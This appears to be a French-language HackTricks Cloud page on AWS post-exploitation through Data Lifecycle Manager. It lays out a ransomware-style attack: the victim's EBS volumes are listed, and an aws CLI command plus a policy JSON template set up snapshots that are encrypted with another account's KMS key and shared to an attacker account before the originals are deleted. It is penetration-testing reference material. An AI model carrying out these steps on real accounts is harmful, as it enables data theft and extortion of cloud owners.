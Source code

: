 # AWS - DLM Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Data Lifecycle Manger (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

Une attaque par ransomware peut être exécutée en chiffrant autant de volumes EBS que possible, puis en effaçant les instances EC2, les volumes EBS et les snapshots actuels. Pour automatiser cette activité malveillante, on peut utiliser Amazon DLM, en chiffrant les snapshots avec une clé KMS d'un autre compte AWS et en transférant les snapshots chiffrés vers un compte différent. Alternativement, ils pourraient transférer des snapshots sans chiffrement vers un compte qu'ils gèrent, puis les chiffrer là-bas. Bien qu'il ne soit pas simple de chiffrer directement les volumes EBS ou les snapshots existants, il est possible de le faire en créant un nouveau volume ou un nouveau snapshot.

Tout d'abord, on utilisera une commande pour recueillir des informations sur les volumes, telles que l'ID de l'instance, l'ID du volume, l'état de chiffrement, l'état de connexion et le type de volume.

`aws ec2 describe-volumes`

Deuxièmement, on créera la politique de cycle de vie. Cette commande utilise l'API DLM pour configurer une politique de cycle de vie qui prend automatiquement des snapshots quotidiens des volumes spécifiés à un moment désigné. Elle applique également des balises spécifiques aux snapshots et copie les balises des volumes vers les snapshots. Le fichier policyDetails.json inclut les détails de la politique de cycle de vie, tels que les balises cibles, le calendrier, l'ARN de la clé KMS optionnelle pour le chiffrement et le compte cible pour le partage de snapshots, qui seront enregistrés dans les journaux CloudTrail de la victime.
```bash
aws dlm create-lifecycle-policy --description "My first policy" --state ENABLED --execution-role-arn arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole --policy-details file://policyDetails.json
```
Un modèle pour le document de politique peut être vu ici :
```bash
{
"PolicyType": "EBS_SNAPSHOT_MANAGEMENT",
"ResourceTypes": [
"VOLUME"
],
"TargetTags": [
{
"Key": "ExampleKey",
"Value": "ExampleValue"
}
],
"Schedules": [
{
"Name": "DailySnapshots",
"CopyTags": true,
"TagsToAdd": [
{
"Key": "SnapshotCreator",
"Value": "DLM"
}
],
"VariableTags": [
{
"Key": "CostCenter",
"Value": "Finance"
}
],
"CreateRule": {
"Interval": 24,
"IntervalUnit": "HOURS",
"Times": [
"03:00"
]
},
"RetainRule": {
"Count": 14
},
"FastRestoreRule": {
"Count": 2,
"Interval": 12,
"IntervalUnit": "HOURS"
},
"CrossRegionCopyRules": [
{
"TargetRegion": "us-west-2",
"Encrypted": true,
"CmkArn": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
"CopyTags": true,
"RetainRule": {
"Interval": 1,
"IntervalUnit": "DAYS"
}
}
],
"ShareRules": [
{
"TargetAccounts": [
"123456789012"
],
"UnshareInterval": 30,
"UnshareIntervalUnit": "DAYS"
}
]
}
],
"Parameters": {
"ExcludeBootVolume": false
}
}
```
{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team GCP (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
